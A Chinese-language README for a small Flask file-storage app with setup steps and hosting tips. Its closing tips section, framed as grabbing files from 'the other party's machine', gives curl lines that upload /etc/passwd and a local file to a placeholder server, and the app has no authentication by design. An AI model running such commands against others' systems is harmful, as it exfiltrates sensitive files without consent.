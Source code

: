 # webstorage
#### 基于python3 开发的flask的简单文件存储
    用于远程下载、异地备份、私人网盘等

### 使用方法
    1. git clone https://github.com/mycve/webstorage.git
    2. cd webstorage
    3. pip3 install -r requirements.txt
    4. python3 app.py
    5. 访问 https://ip:8899 (默认端口8899)

#### 本着轻量级原则，未加密码等功能，私人用吧...

#### Tips：推荐部署到外企一家`python runtime`（:- ♥♥♥ because：forever free
#### [点击直达](https://www.pythonanywhere.com/)

### Demo(是我已经部署好的，地址我就不放了)
![image](https://s1.328888.xyz/2021/11/18/eERy7.gif)


### 小技巧（拖对方机器文件、快捷上传等）：
    curl https://xxxxx.com/api?action=upload -F "file=@/etc/passwd"
    curl https://xxxxx.com/api?action=upload -F "file=@c://1.txt"

### 执行完了，回到网页刷新网盘 （:- over